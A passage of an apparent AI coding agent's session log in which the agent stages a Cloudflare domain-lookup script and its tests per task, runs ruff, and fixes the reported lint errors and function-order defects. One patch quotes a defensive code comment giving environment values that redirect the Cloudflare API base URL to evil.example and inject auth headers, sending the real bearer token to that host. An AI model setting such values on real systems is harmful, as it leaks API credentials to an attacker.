  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib, re, subprocess, shutil\nfull  = pathlib.Path(\"find-platform-domains-cloudflare\").read_text()\ntests = pathlib.Path(\"test_find_platform_domains_cloudflare.py\").read_text()\n\nheader = full[:full.index(\"import argparse\")]              # shebang + docstring\nrest   = full[full.index(\"PLATFORM_SUFFIX =\"):]            # constants onward\nall_imports = full[full.index(\"import argparse\"):full.index(\"PLATFORM_SUFFIX =\")]\n\nSCRIPT_STOPS = {1: \"def resolve_env_marker\", 2: \"def plain(\",\n                3: \"def write_json_atomic\", 4: \"def expected_record_count\", 5: None}\nSCRIPT_IMPORTS = {\n 1: \"import re\\n\",\n 2: \"import os\\nimport re\\nimport shlex\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\",\n 3: \"import os\\nimport re\\nimport shlex\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\",\n 4: \"import json\\nimport os\\nimport re\\nimport shlex\\nimport tempfile\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\",\n 5: all_imports.strip() + \"\\n\"}\nTEST_IMPORTS = {\n 1: \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\",\n 2: \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\",\n 3: \"import importlib.util\\nimport json\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\",\n 4: \"import importlib.util\\nimport json\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\",\n 5: \"import importlib.util\\nimport json\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\"}\nt_head  = tests[:tests.index(\"import importlib.util\")]\nt_body  = tests[tests.index(\"pytestmark = pytest.mark.unit\"):]\nt_marks = [m.start() for m in re.finditer(r\"^# --- Task \\d\", t_body, re.M)] + [len(t_body)]\n\nshutil.rmtree(\"stage\", ignore_errors=True)\nfor task in (1, 2, 3, 4, 5):\n    d = pathlib.Path(f\"stage/task{task}\"); (d / \"tests/unit\").mkdir(parents=True)\n    stop = SCRIPT_STOPS[task]\n    script = header + SCRIPT_IMPORTS[task] + \"\\n\" + (rest if stop is None else rest[:rest.index(stop)])\n    f = d / \"find-platform-domains-cloudflare\"; f.write_text(script.rstrip() + \"\\n\"); f.chmod(0o755)\n    (d / \"tests/unit/test_x.py\").write_text(\n        (t_head + TEST_IMPORTS[task] + \"\\n\" + t_body[:t_marks[task]]).rstrip() + \"\\n\")\n    r1 = subprocess.run([\"uvx\",\"ruff@0.15.22\",\"check\",\"--config\",\"probe/pyproject.toml\",\n                         \"--output-format\",\"concise\",str(f)], capture_output=True, text=True)\n    r2 = subprocess.run([\"uvx\",\"ruff@0.15.22\",\"check\",\"--config\",\"/workspace/pyproject.toml\",\n                         \"--output-format\",\"concise\",str(d/\"tests/unit/test_x.py\")],\n                        capture_output=True, text=True)\n    s = r1.stdout.strip().splitlines()[-1] if r1.stdout.strip() else \"clean\"\n    t = r2.stdout.strip().splitlines()[-1] if r2.stdout.strip() else \"clean\"\n    print(f\"Task {task}: script -> {s:<28} tests -> {t}\")\nPY",
  "description": "Verify ruff clean at every per-task checkpoint"
}
```

### ↳ Tool result

```
Task 1: script -> All checks passed!           tests -> Found 5 errors.
Task 2: script -> Found 1 error.               tests -> No fixes available (1 hidden fix can be enabled with the `--unsafe-fixes` option).
Task 3: script -> Found 5 errors.              tests -> No fixes available (1 hidden fix can be enabled with the `--unsafe-fixes` option).
Task 4: script -> [*] 2 fixable with the `--fix` option. tests -> No fixes available (1 hidden fix can be enabled with the `--unsafe-fixes` option).
Task 5: script -> Found 1 error.               tests -> [*] 1 fixable with the `--fix` option (1 hidden fix can be enabled with the `--unsafe-fixes` option).
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && for t in 1 2 3 4 5; do echo \"=== TASK $t script:\"; uvx ruff@0.15.22 check --config probe/pyproject.toml --output-format concise stage/task$t/find-platform-domains-cloudflare 2>&1 | grep -v \"^Found\\|fixable\\|No fixes\"; echo \"=== TASK $t tests:\"; uvx ruff@0.15.22 check --config /workspace/pyproject.toml --output-format concise stage/task$t/tests/unit/test_x.py 2>&1 | grep -v \"^Found\\|fixable\\|No fixes\"; done",
  "description": "Show the actual per-stage ruff errors"
}
```

### ↳ Tool result

```
=== TASK 1 script:
All checks passed!
=== TASK 1 tests:
stage/task1/tests/unit/test_x.py:1:1: INP001 File `stage/task1/tests/unit/test_x.py` is part of an implicit namespace package. Add an `__init__.py`.
stage/task1/tests/unit/test_x.py:33:5: S101 Use of `assert` detected
stage/task1/tests/unit/test_x.py:51:5: S101 Use of `assert` detected
stage/task1/tests/unit/test_x.py:60:5: S101 Use of `assert` detected
stage/task1/tests/unit/test_x.py:70:5: S101 Use of `assert` detected
=== TASK 2 script:
stage/task2/find-platform-domains-cloudflare:132:5: ERA001 Found commented-out code
=== TASK 2 tests:
stage/task2/tests/unit/test_x.py:1:1: INP001 File `stage/task2/tests/unit/test_x.py` is part of an implicit namespace package. Add an `__init__.py`.
stage/task2/tests/unit/test_x.py:33:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:51:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:60:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:70:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:94:5: PLC0415 `import` should be at the top-level of a file
stage/task2/tests/unit/test_x.py:95:12: SLF001 Private member accessed: `_build_request`
stage/task2/tests/unit/test_x.py:99:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:100:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:100:37: FBT003 Boolean positional value in function call
stage/task2/tests/unit/test_x.py:101:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:107:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:112:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:117:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:124:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:125:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:131:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:139:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:147:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:147:32: S105 Possible hardcoded password assigned to: "api_token"
stage/task2/tests/unit/test_x.py:163:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:165:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:166:14: C416 Unnecessary set comprehension (rewrite using `set()`)
stage/task2/tests/unit/test_x.py:167:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:176:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:183:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:184:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:185:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:186:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:193:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:202:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:203:5: S101 Use of `assert` detected
stage/task2/tests/unit/test_x.py:211:5: S101 Use of `assert` detected
=== TASK 3 script:
stage/task3/find-platform-domains-cloudflare:132:5: ERA001 Found commented-out code
stage/task3/find-platform-domains-cloudflare:324:19: F821 Undefined name `NamedTuple`
stage/task3/find-platform-domains-cloudflare:353:33: F821 Undefined name `sys`
stage/task3/find-platform-domains-cloudflare:363:12: F821 Undefined name `cloudflare`
stage/task3/find-platform-domains-cloudflare:389:12: F821 Undefined name `cloudflare`
=== TASK 3 tests:
stage/task3/tests/unit/test_x.py:1:1: INP001 File `stage/task3/tests/unit/test_x.py` is part of an implicit namespace package. Add an `__init__.py`.
stage/task3/tests/unit/test_x.py:34:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:52:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:61:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:71:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:95:5: PLC0415 `import` should be at the top-level of a file
stage/task3/tests/unit/test_x.py:96:12: SLF001 Private member accessed: `_build_request`
stage/task3/tests/unit/test_x.py:100:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:101:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:101:37: FBT003 Boolean positional value in function call
stage/task3/tests/unit/test_x.py:102:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:108:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:113:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:118:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:125:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:126:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:132:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:140:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:148:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:148:32: S105 Possible hardcoded password assigned to: "api_token"
stage/task3/tests/unit/test_x.py:164:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:166:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:167:14: C416 Unnecessary set comprehension (rewrite using `set()`)
stage/task3/tests/unit/test_x.py:168:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:177:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:184:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:185:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:186:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:187:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:194:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:203:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:204:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:212:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:225:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:237:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:243:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:248:5: PLC0415 `import` should be at the top-level of a file
stage/task3/tests/unit/test_x.py:252:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:264:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:265:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:266:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:267:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:268:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:280:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:281:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:288:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:289:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:298:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:299:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:300:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:301:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:302:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:303:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:304:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:305:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:306:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:316:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:317:5: S101 Use of `assert` detected
stage/task3/tests/unit/test_x.py:318:5: S101 Use of `assert` detected
=== TASK 4 script:
stage/task4/find-platform-domains-cloudflare:26:8: F401 [*] `json` imported but unused
stage/task4/find-platform-domains-cloudflare:30:8: F401 [*] `tempfile` imported but unused
stage/task4/find-platform-domains-cloudflare:134:5: ERA001 Found commented-out code
=== TASK 4 tests:
stage/task4/tests/unit/test_x.py:1:1: INP001 File `stage/task4/tests/unit/test_x.py` is part of an implicit namespace package. Add an `__init__.py`.
stage/task4/tests/unit/test_x.py:34:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:52:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:61:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:71:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:95:5: PLC0415 `import` should be at the top-level of a file
stage/task4/tests/unit/test_x.py:96:12: SLF001 Private member accessed: `_build_request`
stage/task4/tests/unit/test_x.py:100:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:101:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:101:37: FBT003 Boolean positional value in function call
stage/task4/tests/unit/test_x.py:102:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:108:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:113:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:118:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:125:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:126:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:132:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:140:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:148:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:148:32: S105 Possible hardcoded password assigned to: "api_token"
stage/task4/tests/unit/test_x.py:164:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:166:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:167:14: C416 Unnecessary set comprehension (rewrite using `set()`)
stage/task4/tests/unit/test_x.py:168:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:177:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:184:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:185:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:186:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:187:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:194:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:203:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:204:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:212:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:225:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:237:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:243:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:248:5: PLC0415 `import` should be at the top-level of a file
stage/task4/tests/unit/test_x.py:252:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:264:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:265:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:266:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:267:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:268:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:280:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:281:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:288:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:289:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:298:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:299:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:300:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:301:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:302:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:303:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:304:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:305:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:306:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:316:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:317:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:318:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:327:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:328:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:329:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:337:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:338:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:346:5: S101 Use of `assert` detected
stage/task4/tests/unit/test_x.py:347:5: S101 Use of `assert` detected
=== TASK 5 script:
stage/task5/find-platform-domains-cloudflare:138:5: ERA001 Found commented-out code
=== TASK 5 tests:
stage/task5/tests/unit/test_x.py:1:1: INP001 File `stage/task5/tests/unit/test_x.py` is part of an implicit namespace package. Add an `__init__.py`.
stage/task5/tests/unit/test_x.py:34:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:52:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:61:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:71:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:95:5: PLC0415 `import` should be at the top-level of a file
stage/task5/tests/unit/test_x.py:96:12: SLF001 Private member accessed: `_build_request`
stage/task5/tests/unit/test_x.py:100:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:101:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:101:37: FBT003 Boolean positional value in function call
stage/task5/tests/unit/test_x.py:102:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:108:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:113:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:118:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:125:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:126:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:132:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:140:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:148:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:148:32: S105 Possible hardcoded password assigned to: "api_token"
stage/task5/tests/unit/test_x.py:164:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:166:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:167:14: C416 Unnecessary set comprehension (rewrite using `set()`)
stage/task5/tests/unit/test_x.py:168:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:177:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:184:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:185:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:186:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:187:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:194:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:203:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:204:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:212:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:225:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:237:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:243:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:248:5: PLC0415 `import` should be at the top-level of a file
stage/task5/tests/unit/test_x.py:252:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:264:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:265:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:266:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:267:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:268:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:280:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:281:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:288:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:289:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:298:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:299:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:300:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:301:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:302:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:303:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:304:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:305:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:306:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:316:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:317:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:318:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:327:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:328:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:329:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:337:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:338:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:346:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:347:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:384:56: ARG005 Unused lambda argument: `account`
stage/task5/tests/unit/test_x.py:416:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:417:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:418:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:419:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:420:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:420:35: PLR2004 Magic value used in comparison, consider replacing `2` with a constant variable
stage/task5/tests/unit/test_x.py:432:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:446:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:447:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:456:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:457:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:468:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:469:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:480:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:481:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:482:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:482:27: PLR2004 Magic value used in comparison, consider replacing `2` with a constant variable
stage/task5/tests/unit/test_x.py:490:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:494:5: PLC0415 `import` should be at the top-level of a file
stage/task5/tests/unit/test_x.py:500:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:508:5: PLC0415 `import` should be at the top-level of a file
stage/task5/tests/unit/test_x.py:511:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:511:82: PLR2004 Magic value used in comparison, consider replacing `137` with a constant variable
stage/task5/tests/unit/test_x.py:514:53: ARG001 Unused function argument: `fpc`
stage/task5/tests/unit/test_x.py:517:5: PLC0415 `import` should be at the top-level of a file
stage/task5/tests/unit/test_x.py:518:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:524:5: PLC0415 `import` should be at the top-level of a file
stage/task5/tests/unit/test_x.py:524:5: I001 [*] Import block is un-sorted or un-formatted
stage/task5/tests/unit/test_x.py:525:5: PLC0415 `import` should be at the top-level of a file
stage/task5/tests/unit/test_x.py:532:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:533:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:538:58: ARG005 Unused lambda argument: `config_path`
stage/task5/tests/unit/test_x.py:539:62: ARG005 Unused lambda argument: `client`
stage/task5/tests/unit/test_x.py:539:70: ARG005 Unused lambda argument: `verbose`
stage/task5/tests/unit/test_x.py:544:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:546:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:548:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:549:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:550:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:551:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:556:58: ARG005 Unused lambda argument: `config_path`
stage/task5/tests/unit/test_x.py:558:32: ARG005 Unused lambda argument: `client`
stage/task5/tests/unit/test_x.py:558:40: ARG005 Unused lambda argument: `verbose`
stage/task5/tests/unit/test_x.py:559:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:560:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:561:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:566:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:566:61: PLR2004 Magic value used in comparison, consider replacing `2` with a constant variable
stage/task5/tests/unit/test_x.py:567:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:573:19: ARG001 Unused function argument: `config_path`
stage/task5/tests/unit/test_x.py:577:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:577:28: PLR2004 Magic value used in comparison, consider replacing `130` with a constant variable
stage/task5/tests/unit/test_x.py:578:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:586:58: ARG005 Unused lambda argument: `config_path`
stage/task5/tests/unit/test_x.py:588:32: ARG005 Unused lambda argument: `client`
stage/task5/tests/unit/test_x.py:588:40: ARG005 Unused lambda argument: `verbose`
stage/task5/tests/unit/test_x.py:590:16: ARG001 Unused function argument: `path`
stage/task5/tests/unit/test_x.py:590:22: ARG001 Unused function argument: `data`
stage/task5/tests/unit/test_x.py:594:5: S101 Use of `assert` detected
stage/task5/tests/unit/test_x.py:594:28: PLR2004 Magic value used in comparison, consider replacing `2` with a constant variable
stage/task5/tests/unit/test_x.py:595:5: S101 Use of `assert` detected
Shell cwd was reset to /workspace
```

## Assistant

Staging exposed four more real defects (the mass of `S101`/`INP001` are artifacts of my staging path not matching `tests/**`). Fixing: script function order didn't match task order (F821/F401 at Tasks 3–4), plus `ERA001`, `C416`, `I001`:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib, re\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\n\n# 1. ERA001: reword the measured-attack comment so it is prose, not pseudo-assignments\ns = s.replace('''    # for \"ignore that variable\".  Measured: without this line and the base_url= above,\n    #   CLOUDFLARE_BASE_URL=https://evil.example/v4 \\\\\n    #   CLOUDFLARE_CUSTOM_HEADERS=$'X-Auth-Email: attacker@evil.example\\\\nX-Auth-Key: evil-key'\n    # sends `Authorization: Bearer <the real token>` to evil.example -- the pinned credential\n    # leaves the machine.  That is strictly worse than the defect the pin above fixes.''',\n'''    # for \"ignore that variable\".  Measured: without this line and the base_url pin above,\n    # exporting CLOUDFLARE_BASE_URL pointed at an attacker host, together with a\n    # CLOUDFLARE_CUSTOM_HEADERS value supplying X-Auth-Email and X-Auth-Key, sends\n    # `Authorization: Bearer <the real token>` to that host -- the pinned credential leaves the\n    # machine.  That is strictly worse than the defect the field pinning above fixes.''')\n\n# 2. Reorder so file order == task order: write_json_atomic (Task 4) before the walk (Task 5)\nwalk_start = s.index(\"def expected_record_count(page):\")\nwalk_end   = s.index(\"def write_json_atomic(path, data)\")\nwrite_end  = s.index(\"def build_arg_parser():\")\nwalk  = s[walk_start:walk_end]\nwrite = s[walk_end:write_end]\ns = s[:walk_start] + write + walk + s[write_end:]\np.write_text(s)\n\nt = pathlib.Path(\"test_find_platform_domains_cloudflare.py\"); ts = t.read_text()\n# 3. C416\nts = ts.replace(\"leaked = {v for v in request.headers.values()} & set(AMBIENT_CLOUDFLARE_VARS.values())\",\n                \"leaked = set(request.headers.values()) & set(AMBIENT_CLOUDFLARE_VARS.values())\")\n# 4. I001: sort the in-body imports\nts = ts.replace(\"    import httpx\\n    import cloudflare\\n\", \"    import cloudflare\\n    import httpx\\n\")\nt.write_text(ts)\nprint(\"fixed\")\nPY\ncp find-platform-domains-cloudflare probe/ 2>/dev/null; cp test_find_platform_domains_cloudflare.py probe/tests/unit/ 2>/dev/null\ncd probe && chmod +x find-platform-domains-cloudflare && source /workspace/.venv/bin/activate && python -m pytest 